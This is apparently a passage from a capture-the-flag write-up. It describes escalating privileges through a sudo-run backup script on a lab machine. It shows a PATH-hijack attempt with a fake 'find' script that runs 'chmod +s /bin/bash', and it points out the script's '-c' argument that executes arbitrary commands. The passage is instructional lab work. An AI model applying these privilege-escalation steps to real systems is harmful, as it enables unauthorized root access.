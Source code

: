 ```sh
# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```

'find' is called without any absolute path. As in alex's '.profile' we have
```
# set PATH so it includes user's private bin directories
PATH="$HOME/bin:$HOME/.local/bin:$PATH"
```

Let's try to create a bin directory inside alex's home, and create a 'find' file that will set the bash suid
```
mkdir bin
cd bin
touch find
nano find
chmod +x find
```

find is
```
#!/bin/bash
echo 'Set SUID'
chmod +s /bin/bash
```

Now let's call the backup file
```
sudo /etc/mp3backups/backup.sh
```

And.....Nothing. The file is not called. Probably not running the backup with alex's profile.

However, when going back to backup.sh, we can see that it can take an argument
```sh
while getopts c: flag
do
   case "${flag}" in 
    c) command=${OPTARG};;
   esac
done
```
